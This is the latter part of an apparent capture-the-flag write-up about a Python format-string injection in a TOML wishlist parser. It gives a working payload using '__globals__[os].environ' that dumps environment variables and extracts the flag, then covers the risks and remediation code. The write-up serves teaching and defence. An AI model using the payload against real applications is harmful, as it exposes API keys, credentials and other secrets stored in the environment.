ZXhpdCwgJiMzOTtjb3B5cmlnaHQmIzM5OzogQ29weXJpZ2h0IChjKSAyMDAxLTIwMjMgUHl0aG9uIFNvZnR3YXJlIEZvdW5kYXRpb24uCkFsbCBSaWdodHMgUmVzZXJ2ZWQuCgpDb3B5cmlnaHQgKGMpIDIwMDAgQmVPcGVuLmNvbS4KQWxsIFJpZ2h0cyBSZXNlcnZlZC4KCkNvcHlyaWdodCAoYykgMTk5NS0yMDAxIENvcnBvcmF0aW9uIGZvciBOYXRpb25hbCBSZXNlYXJjaCBJbml0aWF0aXZlcy4KQWxsIFJpZ2h0cyBSZXNlcnZlZC4KCkNvcHlyaWdodCAoYykgMTk5MS0xOTk1IFN0aWNodGluZyBNYXRoZW1hdGlzY2ggQ2VudHJ1bSwgQW1zdGVyZGFtLgpBbGwgUmlnaHRzIFJlc2VydmVkLiwgJiMzOTtjcmVkaXRzJiMzOTs6ICAgICBUaGFua3MgdG8gQ1dJLCBDTlJJLCBCZU9wZW4uY29tLCBab3BlIENvcnBvcmF0aW9uIGFuZCBhIGNhc3Qgb2YgdGhvdXNhbmRzCiAgICBmb3Igc3VwcG9ydGluZyBQeXRob24gZGV2ZWxvcG1lbnQuICBTZWUgd3d3LnB5dGhvbi5vcmcgZm9yIG1vcmUgaW5mb3JtYXRpb24uLCAmIzM5O2xpY2Vuc2UmIzM5OzogVHlwZSBsaWNlbnNlKCkgdG8gc2VlIHRoZSBmdWxsIGxpY2Vuc2UgdGV4dCwgJiMzOTtoZWxwJiMzOTs6IFR5cGUgaGVscCgpIGZvciBpbnRlcmFjdGl2ZSBoZWxwLCBvciBoZWxwKG9iamVjdCkgZm9yIGhlbHAgYWJvdXQgb2JqZWN0Ln0sICYjMzk7b3MmIzM5OzogJmx0O21vZHVsZSAmIzM5O29zJiMzOTsgKGZyb3plbikmZ3Q7LCAmIzM5O3JlJiMzOTs6ICZsdDttb2R1bGUgJiMzOTtyZSYjMzk7IGZyb20gJiMzOTsvdXNyL2xpYi9weXRob24zLjEyL3JlL19faW5pdF9fLnB5JiMzOTsmZ3Q7LCAmIzM5O3RvbWxsaWImIzM5OzogJmx0O21vZHVsZSAmIzM5O3RvbWxsaWImIzM5OyBmcm9tICYjMzk7L3Vzci9saWIvcHl0aG9uMy4xMi90b21sbGliL19faW5pdF9fLnB5JiMzOTsmZ3Q7LCAmIzM5O2RhdGV0aW1lJiMzOTs6ICZsdDttb2R1bGUgJiMzOTtkYXRldGltZSYjMzk7IGZyb20gJiMzOTsvdXNyL2xpYi9weXRob24zLjEyL2RhdGV0aW1lLnB5JiMzOTsmZ3Q7LCAmIzM5O3VucXVvdGUmIzM5OzogJmx0O2Z1bmN0aW9uIHVucXVvdGUgYXQgMHg3ZjcxYzVmNDkzYTAmZ3Q7LCAmIzM5O2RhdGFjbGFzcyYjMzk7OiAmbHQ7ZnVuY3Rpb24gZGF0YWNsYXNzIGF0IDB4N2Y3MWM1ZDg3YTYwJmd0OywgJiMzOTtFbnZpcm9ubWVudCYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtqaW5qYTIuZW52aXJvbm1lbnQuRW52aXJvbm1lbnQmIzM5OyZndDssICYjMzk7RmlsZVN5c3RlbUxvYWRlciYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtqaW5qYTIubG9hZGVycy5GaWxlU3lzdGVtTG9hZGVyJiMzOTsmZ3Q7LCAmIzM5O3RlbXBsYXRlJiMzOTs6ICZsdDtUZW1wbGF0ZSAmIzM5O2luZGV4LnRwbCYjMzk7Jmd0OywgJiMzOTtGYWN0b3J5JiMzOTs6ICZsdDtjbGFzcyAmIzM5O0ZhY3RvcnkmIzM5OyZndDssICYjMzk7ZmFjdG9yeSYjMzk7OiAmbHQ7RmFjdG9yeSBvYmplY3QgYXQgMHg3ZjcxYzVkODBjODAmZ3Q7) :


We can see the `Factory` class, but more importantly, the `os` module we need.

As `0.__init__.__globals__` is an array, we can access the `os` module with `0.__init__.__globals__[os]`

The os module as an object `environ` that can be used to retrieve one or all environments variables :


So the following payload :
```
x{0.__init__.__globals__[os].environ}
```
Would dump all the environment variables. Let's try it :


And it work, we successfully dump the environment of the application using a format string vulnerability.

## POC

Using the following TOML input :
```toml
[wishlist]
price = 'x{0.__init__.__globals__[os].environ[FLAG]}'
item = 'hoodie'
```

We can dump the content of the environment variable `FLAG`:


> FLAG : `FLAG{Xma5_g1fts_f0r_3v3ry0ne!!!}`

## RISKS

In production environment, the environment variables often stores sensitives data :
- **Secrets and Keys:**
    - API keys, database credentials, encryption keys, or tokens might be stored here.
- **System Information:**
    - PATH variables, execution environments, or other metadata could be useful for reconnaissance in an attack.
- **Debug or Admin Tokens:**
    - Temporary debugging credentials or admin tokens could be exploited if exposed.

Those data could be used for further exploitation of the system.

## REMEDIATION

There are 3 ways to handle string verification before calling `int()` :
1. Use the `isdigit()` function :
```python
print('13'.isdigit())
# True

print('x{ddd}'.isdigit())
# False
```
2. Use a custom function using a `try/except`:
```python
def is_int(input):
	try:
		int(input)
		return True
	except ValueError:
		return False
```
3. Blacklist the characters `{}` to avoid string formating :
```python
if "price" in wishlist.keys():
	if '{' in wishlist["price"] or '}' in wishlist["price"]:
		raise self.makeError('Price should be digit only')
```


As always, thanks to Brumens for the fun challenge, and see you in the next one.

#### #YesWeRHackers

## REFERENCES

- [https://security.stackexchange.com/questions/238338/are-there-any-security-concerns-to-using-python-f-strings-with-user-input](https://security.stackexchange.com/questions/238338/are-there-any-security-concerns-to-using-python-f-strings-with-user-input)
- [https://cwe.mitre.org/data/definitions/134.html](https://cwe.mitre.org/data/definitions/134.html)
- [https://toml.io/en/](https://toml.io/en/)
- [https://quickref.me/toml.html](https://quickref.me/toml.html)